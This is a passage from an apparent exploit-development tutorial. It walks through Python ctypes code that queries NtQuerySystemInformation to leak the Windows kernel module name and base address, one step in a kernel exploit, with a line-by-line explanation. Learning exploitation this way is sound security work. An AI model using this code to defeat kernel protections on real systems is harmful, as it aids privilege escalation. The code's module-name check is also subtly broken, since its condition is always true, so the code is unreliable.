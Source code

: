```python
        print("[*] Success, allocated {}-byte result buffer".format(str(len(sys_info))))

    else:
        print("[!] NtQuerySystemInformation failed with NTSTATUS: {}".format(hex(result)))

    class SYSTEM_MODULE_INFORMATION(Structure):
        _fields_ = [("Reserved", c_void_p * 2),
                    ("ImageBase", c_void_p),
                    ("ImageSize", c_long),
                    ("Flags", c_ulong),
                    ("LoadOrderIndex", c_ushort),
                    ("InitOrderIndex", c_ushort),
                    ("LoadCount", c_ushort),
                    ("ModuleNameOffset", c_ushort),
                    ("ImageName", c_char * 256)]

    # thanks GradiusX
    handle_num = c_ulong(0)
    handle_num_str = create_string_buffer(sys_info.raw[:8])
    memmove(addressof(handle_num), handle_num_str, sizeof(handle_num))

    print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))
    
    sys_info = create_string_buffer(sys_info.raw[8:])

    counter = 0
    for x in range(handle_num.value):
        tmp = SYSTEM_MODULE_INFORMATION()
        tmp_si = create_string_buffer(sys_info[counter:counter + sizeof(tmp)])
        memmove(addressof(tmp), tmp_si, sizeof(tmp))
        if "ntoskrnl" or "ntkrnl" in tmp.ImageName:
            img_name = tmp.ImageName.split("\\")[-1]
            print("[*] Kernel Type: {}".format(img_name))
            kernel_base = hex(tmp.ImageBase)[:-1]
            print("[*] Kernel Base: {}".format(kernel_base))
            return img_name, kernel_base
        counter += sizeof(tmp)
```

The primary difference here is going to be establishing a class for the `SYSTEM_MODULE_INFORMATION` structure. Its very similar to GradiusX's class in their exploit script; however, I changed the name of the last member so that it was more congruent with the FuzzySec's Powershell script. For more information about this struct, please see the [documenation I referenced throughout this bug class exploitation process](https://gist.github.com/jNizM/ddf02494cd78e743eed776ce6164758f).

Let me break this down piece by piece. We declare a class that matches exactly with the aforementioned documentation that I referenced. We then create a `handle_num` variable of type `c_ulong()` which will be 8 bytes on x64 Windows. We create a string buffer and fill it with the first 8 bytes of our returned `sys_info` struct. We then move this buffer to the address of our `handle_num` variable which allows us to get the value in decimal of the number of `SystemModuleInformation` objects we returned with our `NtQuerySystemInformation` API call. You can see this here: 
```python
handle_num = c_ulong(0)
handle_num_str = create_string_buffer(sys_info.raw[:8])
memmove(addressof(handle_num), handle_num_str, sizeof(handle_num))

print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))
```
